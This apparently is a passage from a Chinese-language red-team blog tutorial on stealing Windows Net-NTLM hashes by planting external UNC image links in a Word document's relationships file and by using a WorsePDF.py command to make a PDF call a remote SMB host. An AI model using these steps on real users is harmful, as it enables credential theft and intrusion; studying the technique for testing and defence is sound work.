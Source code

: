 

新建一个word文件，插入一张图片



![](https://img-blog.csdnimg.cn/img_convert/739af8af3aefa277340e353610cfb1ec.png)



用压缩软件打开，进入 test.docx\\word\\\_rels 目录，修改document.xml.rels文件



![](https://img-blog.csdnimg.cn/img_convert/2bbf28ef3794f6aee3b6c59d0192f35a.png)



可以看到Target参数是本地的路径，我们修改为指定的UNC路径，然后加上TargetMode="External"



![](https://img-blog.csdnimg.cn/img_convert/d3c885885b5093f32978286b811a445b.png)



![](https://img-blog.csdnimg.cn/img_convert/3d9fd61750d0105fb3f468bf9b05b68f.png)



只要有人访问了该word文档，目标主机就会去请求指定UNC的图片资源，于是该主机会将当前用户的NTLM v2 hash发送给指定的机器，我们在该机器上使用Responder监听，就能接收到目标机器发来的Net-NTLM Hash了。



![](https://img-blog.csdnimg.cn/img_convert/42991ef82d23e28ce4401d2b6b941aa0.png)



![](https://img-blog.csdnimg.cn/img_convert/e91eb593106870da9c971fdf65d525ef.png)



### pdf



PDF文件可以添加一项功能：请求远程SMB服务器的文件。于是乎，利用PDF文件的正常功能够窃取Windows系统的Net-NTLM Hash。当用户使用PDF阅读器打开一份恶意的PDF文档，该PDF会向远程SMB服务器发出请求，如果该远程SMB服务器对数据包进行抓取，就能够获得用户Windows系统的Net-NTLM Hash。



如下，使用脚本往正常的PDF文件中加入请求远程SMB服务器的功能，生成 test.pdf.malicious.pdf 文件。



```
python2 WorsePDF.py test.pdf 192.168.106.5
```




![](https://img-blog.csdnimg.cn/img_convert/08aa6a2e91f7b8293fd38d2dc1f51def.png)



经过测试发现，只有使用Adobe PDF阅读器才会发收到Net-NTLM Hash，Chrome、Edge和WPS的PDF阅读器不能收到Net-NTLM Hash。

